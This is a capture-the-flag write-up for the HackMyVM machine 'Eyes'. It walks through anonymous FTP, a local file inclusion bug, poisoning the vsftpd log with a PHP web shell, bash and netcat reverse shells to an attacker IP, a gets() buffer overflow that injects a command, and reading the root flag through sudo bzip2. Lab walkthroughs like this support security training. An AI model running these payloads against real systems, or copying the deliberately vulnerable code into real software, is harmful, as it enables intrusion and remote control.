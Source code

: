 ```yaml
---
layout: post
author: maxin
title:  "Eyes"
date:   2022-01-01 10:39:32 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Eyes)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 20:14:26 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.217
Nmap scan report for 192.168.0.217
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             125 Apr 04  2021 index.php
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b1:12:94:12:60:67:e1:0b:45:c1:8d:e9:21:13:bc:51 (RSA)
|   256 b7:7f:25:94:d6:4e:88:56:8a:22:34:16:c2:de:ba:02 (ECDSA)
|_  256 30:c7:a2:90:39:5d:24:13:bf:aa:ba:4c:a7:f4:2f:bb (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 20:14:35 2021 -- 1 IP address (1 host up) scanned in 8.99 seconds
{% endhighlight  %}

# FTP

Connect to FTP using the default creds `anonymous` and blank password

Get index.php, we can see it’s a LFI. 

{% highlight php  %}
<?php
$file = $_GET['fil3'];
if(isset($file)) {
	include($file);
} else {
	print("Here my eyes...");
}
?>
<!--Monica's eyes-->
{% endhighlight  %}

# Log Poisoning

Testing the LFI, we have access to vsftpd logs `/index.php?fil3=/var/log/vsftpd.log`

We can poison this log with a malicious payload and get RCE 

## LFI → RCE

Go back to FTP

![Untitled](/images/eyes/ftp.png)

{% highlight php  %}
<?php $cmd=$_GET['cmd'];system($cmd); ?>
{% endhighlight  %}

Go back to webserver and use the `cmd` parameter to do a reverse shell

## Reverse shell

{% highlight bash  %}
http://$IP/index.php?fil3=/var/log/vsftpd.log&cmd=bash -c 'bash -i >& /dev/tcp/$KaliIP/$PORT 0>&1'
{% endhighlight  %}

`Note:` If you having trouble with reverse shell, send this payload above to burp and encode with URL-Encode

# User

On `/opt` directory have a C script

{% highlight c  %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/types.h>

int main(void) {
 char command[100];
 char ls[50]="/usr/bin/ls";
 char name[50];
 printf("Enter your name:");
 gets(name);
 strcpy(command,ls);
 setuid(1000);
 setgid(1000);
 printf("Hi %s, Im executing ls\n Output:\n",name);
 system(command);
}
{% endhighlight  %}

This code it’s vulnerable to Buffer Overflow. Buffer the `name` variable, we can overwrite the `ls`variable and inject whatever command we want.

{% highlight bash  %}
python3 -c 'print("a"*64 + "/usr/bin/nc $KaliIP 1000 -e /bin/bash")' | ./ls
{% endhighlight  %}

Sending 64 characters to `name` we can start to overwrite `ls` variable and send nc command to our machine 

# Root

{% highlight bash  %}
sudo -l

User monica may run the following commands on eyes:
    (ALL) NOPASSWD: /usr/bin/bzip2
{% endhighlight  %}

{% highlight bash  %}
sudo bzip2 -c /root/root.txt | bzip2 -d
{% endhighlight  %}